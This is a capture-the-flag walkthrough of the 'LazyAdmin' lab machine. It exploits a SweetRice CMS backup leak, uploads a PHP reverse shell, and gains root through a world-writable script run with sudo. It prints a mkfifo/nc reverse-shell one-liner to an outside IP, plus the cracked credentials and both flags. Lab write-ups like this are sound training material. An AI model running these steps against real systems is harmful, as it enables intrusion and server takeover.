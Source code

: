 # LazyAdmin

Easy linux machine to practice your skills

Have some fun! There might be multiple ways to get user access.

Note: It might take 2-3 minutes for the machine to boot

# #1 - What is the user flag?

Nmap reveals 2 ports: 22 (SSH) and 80 (HTTP).

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Let's start with the web service. When connecting to the main page, we see the Apache2 Ubuntu Default Page. There is no `robots.txt` file which would disclose hidden locations.

dirsearch found a hidden directory: http://10.10.5.11/content/. It hosts SweetRice, a CMS built by basic-cms.org (http://www.basic-cms.org/). As the project is open source, we have access to the sources (https://github.com/sweetrice/SweetRice).

Analyzing the sources, we see that there is a file named changelog.txt that discloses the version:

~~~
$ curl -s http://10.10.5.11/content/changelog.txt | grep Version
Version 1.5.0
~~~

This version is outdated (the latest release at the time of this writing is 1.6.2) and may have vulnerabilities.

Looking for exploits (https://www.exploit-db.com/) affecting this CMS reveals several promising exploits (Backup Disclosure, Arbitrary File Upload, Arbitrary File Download). Let's check the first one (Backup Disclosure).

~~~
$ curl -s http://10.10.5.11/content/inc/mysql_backup/ | html2text 
# Index of /content/inc/mysql_backup

![\[ICO\]](/icons/blank.gif)| [Name](?C=N;O=D)| [Last modified](?C=M;O=A)|
[Size](?C=S;O=A)| [Description](?C=D;O=A)  
---|---|---|---|---  
  
* * *  
  
![\[PARENTDIR\]](/icons/back.gif)| [Parent Directory](/content/inc/)|  |  \- |  
![\[   \]](/icons/unknown.gif)|
[mysql_bakup_20191129023059-1.5.1.sql](mysql_bakup_20191129023059-1.5.1.sql)|
2019-11-29 12:30 | 4.7K|  
  
* * *  
  
Apache/2.4.18 (Ubuntu) Server at 10.10.5.11 Port 80
~~~

Prefect! Let's download this backup.

~~~
$ wget http://10.10.5.11/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
$ cat mysql_bakup_20191129023059-1.5.1.sql 

[REDACTED]

  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',

[REDACTED]

~~~

We have a hash: `42f749ade7f9e195bf475f37a44cafcb`. Let's search for it online (e.g. https://crackstation.net/). We now have an account:
* Username: `manager`
* Password: `Password123`

Now, still analyzing the source of the CMS on github, we see that the administration panel is accessible from the `as` subdirectory. Let's connect to http://10.10.5.11/content/as/ with the credentials found.

We are now connected. Interestingly, we find that the version is `1.5.1` (and not `1.5.0` as the `changelog.txt` was suggesting).

It seems we can create a post and attach a file. Let's try to attach a reverse shell (http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz).

Put your IP on the reverse shell and rename it `shell.php5` (`*.php` extension is not allowed but `*.php5` works).

!["upload-shell.png"](files/upload-shell.png)

Now, start a listener on the port you specified in the reverse shell:

~~~
$ rlwrap nc -nlvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
~~~

And browse http://10.10.5.11/content/attachment/shell.php5.

You should now have a shell:

~~~
$ whoami
www-data
$ cd /home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
~~~

User flag: `THM{63e5bce9271952aad1113b6f1ac28a07}`

# #2 - What is the root flag?

Very surprisingly for `www-data`, we have sudo privileges:

~~~
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
~~~

The backup script is a perl script that calls `/etc/copy.sh`

~~~
$ ls -l backup.pl
-rw-r--r-x 1 root root 47 Nov 29  2019 backup.pl
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ cat backup.pl
~~~

And we have write access to the `copy.sh` file, which already contains a template of a reverse shell.

~~~
$ ls -l /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
~~~

All we need to do is open a listener on our machine:

~~~
$ rlwrap nc -nlvp 5554
~~~

And modify the template to use our IP, and start the script with `sudo`:

~~~
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 5554 >/tmp/f" > /etc/copy.sh
$ sudo perl /home/itguy/backup.pl
~~~

In our reverse shell, we now have root access:

~~~
$ rlwrap nc -nlvp 5554
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::5554
Ncat: Listening on 0.0.0.0:5554
Ncat: Connection from 10.10.70.137.
Ncat: Connection from 10.10.70.137:50422.
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
~~~

Root flag: `THM{6637f41d0177b6f37cb20d775124699f}`
